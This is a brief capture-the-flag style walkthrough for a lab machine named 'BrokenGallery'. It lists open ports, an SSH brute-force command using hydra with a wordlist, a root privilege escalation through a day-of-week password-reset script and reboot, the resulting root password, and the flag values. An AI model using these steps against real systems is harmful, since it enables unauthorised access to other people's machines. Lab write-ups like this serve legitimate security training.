



# BrokenGallery

**IP Address:** 192.168.90.

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.18 ((Ubuntu)) |

## Exploitation
### Exploit Details (Bruteforce / Weak credentials)
* **Name** - Bruteforce / Weak credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash
hydra $ip -s 22 ssh -l broken  -P /usr/share/wordlists/rockyou.txt -F
ssh broken@$ip
broken
whoami
cat local.txt
```


## Privilege Escalation
### Exploit Details (Metasploit)
* **Name** - N/A
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The bash history of the broken user leads us to the /etc/init.d/password-policy.sh file. Which appears to change the password if it is the 4th day of the week. Knowing this and the fact that we have sudo rights to change the date and to reboot the machine it becomes pretty obvious the path forward. We just need to change the date to be the 4th day (Thursday) and then restart the machine and the password should be set to the value in the script. In this example the day is already set to the 4th so we don't need to change the date using the 'sudo timedatectl set-time' command.  


Commands
```bash
cat /etc/init.d/password-policy.sh 
DAYOFWEEK=$(date +"%u")
echo DAYOFWEEK: $DAYOFWEEK
sudo reboot
```



Commands
```
ssh root@$ip
TodayIsAgoodDay
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
efe894c00ef01e0a02dc4f580b2d474b
proof.txt
3185ed2eb178b2e3f7b1c121176f2e40
```